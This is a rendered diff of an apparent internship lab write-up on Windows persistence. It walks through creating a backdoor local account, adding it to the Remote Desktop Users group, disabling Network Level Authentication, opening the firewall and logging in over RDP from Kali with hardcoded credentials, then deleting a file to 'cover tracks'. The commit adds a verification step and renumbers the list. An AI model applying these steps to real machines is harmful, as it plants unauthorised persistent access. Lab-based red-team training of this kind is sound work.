

Before and after one commit to aaronamran/MCSI-Remote-Cybersecurity-Internship, a Markdown page: Red Teaming/persist-windows-machine.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Red Teaming/persist-windows-machine.md
+++ b/Red Teaming/persist-windows-machine.md
@@ -19,30 +19,32 @@ Creating a malicious local account is a simple way to install a backdoor, often
    net localgroup Users svc_network add
    net localgroup "Remote Desktop Users" svc_network /add
    ```
-4. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
+   To confirm that `svc_network` user has been added into "Remote Desktop Users" group, go to Control Panel > System and Security. Under System, click Allow remote access. A System Properties window will appear. Click Select Users... and confirm that svc_network is in the allowed list
+   ![image](https://github.com/user-attachments/assets/82b445d6-d9ca-4ccb-91cd-0af5450bb15d)
+5. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
    ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
-5. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
-6. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
+6. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
+7. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
    ```
    sudo apt update
    sudo apt install freerdp2-x11
    ```
-7. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
+8. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
    ```
    sudo ufw status
    sudo ufw allow 3389/tcp
    sudo ufw reload
    sudo ufw status
    ```
-8. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
+9. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
    ```
    sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
    ```
-9. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
+10. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
    ```
    echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
    ```
-10. To cover up the tracks, delete the dummy file
+11. To cover up the tracks, delete the dummy file
    ```
    del C:\Windows\Temp\dummymaliciousfile.txt
    ```
````
